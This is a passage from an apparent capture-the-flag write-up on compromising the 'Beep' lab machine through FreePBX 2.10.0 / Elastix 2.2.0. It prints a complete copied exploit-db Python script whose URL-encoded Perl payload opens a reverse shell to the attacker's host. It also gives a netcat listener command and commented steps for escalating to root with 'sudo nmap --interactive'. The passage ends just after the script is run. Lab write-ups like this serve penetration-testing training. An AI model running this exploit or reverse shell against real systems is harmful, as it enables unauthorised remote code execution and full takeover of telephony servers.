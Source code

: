 Another payload that I had my eyes on, was the `Elastix 2.2.0 - Remote Code Execution` from the search for elastix exploits

```
$ searchsploit -p 18650
  Exploit: FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution
      URL: https://www.exploit-db.com/exploits/18650
     Path: /usr/share/exploitdb/exploits/php/webapps/18650.py
File Type: Python script, ASCII text executable, with very long lines, with CRLF line terminators

$ cp /usr/share/exploitdb/exploits/php/webapps/18650.py .
```
I edited my local copy of the python file, just changed the rhost and lhost, like this:
```python
#!/usr/bin/python
############################################################
# Exploit Title: FreePBX / Elastix pre-authenticated remote code execution exploit
# Google Dork: oy vey
# Date: March 23rd, 2012
# Author: muts
# Version: FreePBX 2.10.0/ 2.9.0, Elastix 2.2.0, possibly others.
# Tested on: multiple
# CVE : notyet
# Blog post : http://www.offensive-security.com/vulndev/freepbx-exploit-phone-home/ 
# Archive Url : http://www.offensive-security.com/0day/freepbx_callmenum.py.txt
############################################################
# Discovered by Martin Tschirsich
# http://seclists.org/fulldisclosure/2012/Mar/234
# http://www.exploit-db.com/exploits/18649
############################################################
import urllib
rhost="10.10.10.7" #beep box ip
lhost="10.10.14.15" #my ip
lport=443
extension="1000"

# Reverse shell payload

url = 'https://'+str(rhost)+'/recordings/misc/callme_page.php?action=c&callmenum='+str(extension)+'@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%22'+str(lhost)+'%3a'+str(lport)+'%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A'

urllib.urlopen(url)

# On Elastix, once we have a shell, we can escalate to root:
# root@bt:~# nc -lvp 443
# listening on [any] 443 ...
# connect to [172.16.254.223] from voip [172.16.254.72] 43415
# id
# uid=100(asterisk) gid=101(asterisk)
# sudo nmap --interactive

# Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
# Welcome to Interactive Mode -- press h <enter> for help
# nmap> !sh
# id
# uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
```
launched a listener on port 443 with netcat
```
$ nc -nvlp 443
```
executed the python script